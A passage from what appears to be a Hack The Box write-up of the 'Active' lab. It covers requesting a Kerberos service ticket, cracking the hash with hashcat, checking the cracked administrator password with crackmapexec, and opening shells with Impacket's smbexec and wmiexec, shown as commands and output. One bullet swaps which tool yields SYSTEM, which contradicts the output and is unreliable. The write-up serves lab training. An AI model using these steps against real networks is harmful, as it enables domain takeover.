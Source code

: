 Since we have a valid account on the domain, we can request for the TGS, if there are any accounts associated with the services.

![image](/assets/images/htb-boxes/active/Pasted image 20210704115550.png)
We do have a account and we get the hash back.

## Trying to crack the hash using hashcat
![image](/assets/images/htb-boxes/active/Pasted image 20210704115953.png)
And we can see that the hash cracks successfully.


## Testing the account with cme
```console
reddevil@ubuntu:~/Documents/htb/retired/active$ cme smb active.htb -u administrator -p Ticketmaster1968
SMB         10.10.10.100    445    DC               [*] Windows 6.1 Build 7601 x64 (name:DC) (domain:active.htb) (signing:True) (SMBv1:False)
SMB         10.10.10.100    445    DC               [+] active.htb\administrator:Ticketmaster1968 (Pwn3d!)
```
- It says pwned so it means that we can get a shell.
- we can use wmiexec or smbexec to get a shell.
- The difference is that we get a shell as `administrator` with smbexec whereas `nt authority\system` as wmiexec.

## Getting a shell as system

```console
reddevil@ubuntu:~/Documents/htb/retired/active$ smbexec.py active.htb/administrator:Ticketmaster1968@10.10.10.100
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

[!] Launching semi-interactive shell - Careful what you execute
C:\Windows\system32>whoami
nt authority\system
```

## Shell as administrator
```console
reddevil@ubuntu:~/Documents/htb/retired/active$ wmiexec.py active.htb/administrator:Ticketmaster1968@10.10.10.100
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

[*] SMBv2.1 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
active\administrator

```

